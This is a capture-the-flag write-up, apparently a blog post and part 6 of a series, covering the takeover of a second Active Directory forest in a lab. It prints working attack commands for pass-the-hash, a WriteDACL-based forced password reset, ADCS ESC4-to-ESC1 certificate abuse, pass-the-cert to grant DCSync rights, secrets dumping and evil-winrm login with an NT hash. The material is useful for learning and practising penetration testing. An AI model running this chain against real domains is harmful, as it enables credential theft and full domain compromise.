### NHA - Part 6

Now that we are DA on one domain, we can see that there is a two way trust. However its not a parent/child but rather it appears to be a forest trust.

So what can we do?

#### Password reuse

We can create a list of all the users and hashes from the dc dump and see if any of them can authenticate against the DC-VIL, due to the nature of the trust, all of them in theory could succeed but lets test:

*Making our list*


*Checking for authentication*



*Getting our user list*

```bash
nxc smb dc-vil -u Administrator -H 8fd[redacted]cba4 -d academy.ninja.lan --users
```



From here we can build a list of users that appear on both domains and their respective hashes and check for "password reuse" but we're just substituting the passwords for hashes

```bash
nxc ldap dc-vil -u usersgood -H hashes.list --no-bruteforce
```

#### Bloodhound again

We can take another bloodhound against this domain and see what we have.

```bash
bloodhound-ce-python -u 'olivia.davis' --hashes :91d[reacted]487  -d ninja.hack -dc DC-vil.ninja.hack -c All -ns 192.168.56.10 --dns-tcp
```

#### Where's Rachel!?

Well browsing bloodhound doesnt feel too promising with our current path but we do have `WriteDACL` on Rachel Philips so, perhaps we will get lucky and enumerating with this user wille expose something other contexts couldnt see.

```bash
dacledit.py -action 'write' -rights 'FullControl' -principal 'olivia.davis' -target-dn 'CN=RACHEL.PHILIPS,CN=USERS,DC=NINJA,DC=HACK' 'ninja.hack'/'olivia.davis' -hashes :91d[redacted]487  -dc-ip 192.168.56.10
```

Then we can force change password... a terrible idea in the real world but, for now lets try it out.

```bash
pth-net rpc password "rachel.philips" "Iloveu1!" -U 'ninja.hack/olivia.davis'%"ffffffffffffffffffffffffffffffff":"91d[redacted]487" -S 'dc-vil.ninja.hack'
```

*Updating and testing...*


We can take another quick `rusthound`

```bash
rusthound-ce -u 'rachel.philips' -p 'Iloveu1!' --domain ninja.hack -i 192.168.56.10
```

and take a peek.



well well well.

#### Final DACL

##### GenericAll

First lets add rachel to the Jonin group

```bash
net rpc group addmem "Jonin" "Rachel.Philips" -U 'ninja.hack/Rachel.Philips'%"Iloveu1!" -S "dc-vil.ninja.hack"
```



:::info
I noticed here the errors from last section and this section while using the `net rpc` commands

`net: Ignoring: /etc/krb5.conf:17: missing =`

We will want to ensure that there isnt that final line of `...` and that the realms are capitalized if possible (I updated part one but if anyone is wondering about the errors I intially had errors)
:::

:::tip
```text
ldeep ldap -u rachel.philips -p '{what you changed to}' -d ninja.hack -s ldap://192.168.56.10 membersof 'JONIN'
```

Can be used to verify the users in the group
:::

#### ADCS ESC4

Now that we're in the Jonin group - lets try a `certipy`

```bash
neontechtra@kali ~/n/dc-vil> certipy-ad find -u rachel.philips@ninja.hack  -target 192.168.56.10 -stdout -enabled -vulnerable
```

:::tip
This will prompt for a password instead of typing it in
:::

We find the following:


I want to call attention to something - prior to this I had tried certipy with rachel, however she wasnt in the jonin group and thus it came back empty:



Now I am using `-enabled -vulnerable` so always just bear in mind that depending on how you're using commands, when you find new data, or make changes to constantly be rechecking: "could this affect potential paths?" if at all unsure, just do a quick scan again.

**Important Data**

The next steps you will want to grab some important data:



Then we make the ESC4 template vulnerable to ESC1 (due to our GenericAll privileges)

```bash
certipy-ad template -u rachel.philips@ninja.hack -p 'Iloveu1!' -template SignatureValidation -save-old -debug
```



Then we can exploit the new "ESC1" style ADCS

```bash
certipy-ad req -u rachel.philips@ninja.hack -p 'Iloveu1!' -target dc-vil.ninja.hack -template SignatureValidation -ca NINJA-CA -upn Administrator@ninja.hack
```



Try and get a .ccache file...



oh...what happend

It appears the DC does not support `pkinit`, this is ok we can simply try to pass the cert instead

```bash
certipy-ad cert -pfx administrator.pfx -nokey -out administrator.crt
```

```bash
certipy-ad cert -pfx administrator.pfx -nocert -out administrator.key
```

:::warning
The next step caused me hours and hours of pain -- If you search for the user with pass the cert and it cant find it in ldap? I needed to reprovision the entire lab. So sadly if you are running into the same issue...nuke, pave and rebuild.
:::

one rebuild later...

*Create the keys again*



We will give Rachel.Philips DCSYNC Rights

```bash
python3 ~/tools/PassTheCert/Python/passthecert.py -action modify_user -target rachel.philips -elevate -crt "admin.crt" -key "admin.key" -domain "ninja.hack" -dc-ip 192.168.56.10
```



#### Dumping the secrets

Now we can use `secretsdump`

```bash
secretsdump.py -k -no-pass ninja.hack/rachel.philips:'Iloveu1!'@dc-vil.ninja.hack -output dcvil-dump
```



#### Flags

For something different we can use `evil-winrm` to log onto the machine

```bash
evil-winrm -i 192.168.56.10 -u Administrator -H 26777fdb79382484117ccfda940eca82
```



Flag: `NHA{CongraTul@T1ions_Young_HoKage!}`

We did it!

While buggy, quite a fun lab - I hope sensei mayfly makes more!
Thanks for reading!
